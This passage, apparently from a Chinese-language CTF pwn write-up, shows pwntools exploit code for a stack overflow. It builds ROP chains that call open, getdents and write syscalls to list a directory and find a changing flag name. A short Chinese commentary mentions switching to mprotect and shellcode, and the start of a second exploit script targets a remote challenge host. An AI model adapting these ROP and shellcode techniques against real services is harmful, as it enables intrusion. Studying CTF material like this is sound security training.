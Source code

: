 ```python
syscall = libc_base + libc_syscall

# gdb.attach(sh, 'b write')

sh.recvuntil(b"size?\n")
sh.send(b'-1')
sh.recvuntil(b"content?\n")
payload = b'a'*0x30 + p64(bss_addr+0x100) + p64(pop_rdi_ret) + p64(0)
payload += p64(pop_rsi_r15_ret) + p64(bss_addr+0x100) + p64(0)
payload += p64(pop_rdx_r12_ret) + p64(0x30) + p64(0)
payload += p64(pop_rax_ret) + p64(0)
payload += p64(syscall) + p64(main_addr)
sh.sendline(payload)
sh.recvuntil(b"done!\n")
payload = b'./\x00'
sh.sendline(payload)

sh.recvuntil(b"size?\n")
sh.send(b'-1')
sh.recvuntil(b"content?\n")
payload = b"A"*0x30 + p64(bss_addr + 0x100)
payload += p64(pop_rax_ret) + p64(0x2)
payload += gen_para_payload(p64(bss_addr + 0x100), p64(0x10000), p64(0))
payload += p64(syscall)

payload += p64(pop_rax_ret) + p64(78)
payload += gen_para_payload(p64(3), p64(bss_addr + 0x100), p64(0x1000))
payload += p64(syscall)

payload += p64(pop_rax_ret) + p64(0x1)
payload += gen_para_payload(p64(1), p64(bss_addr + 0x100), p64(0x1000))
payload += p64(syscall)
payload += p64(main_addr)
sh.sendline(payload)
sh.recvuntil(b"done!\n")
sh.interactive()

```

最后选择了 mprotect 改权限然后写 shellcode

值得一提的是，mark 爹 ayoung 爹他们都是先读了 flag 名在第二次连接的时候再直接读文件内容的。

我做的时候却是不行的（每一次重新链接 flag 名字都换了），于是还重新改了改 shellcode

exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process('./vuln')
sh = remote('chuj.top', 42614)
elf = ELF('./vuln')
libc = ELF('./libc-2.31.so')

pop_rdi_ret = 0x0401443
pop_rsi_r15_ret = 0x0401441
libc_pop_rdx_r12_ret = 0x011c371
libc_pop_rax_ret = 0x04a550
libc_syscall = 0x066229
bss_addr = 0x0404000
```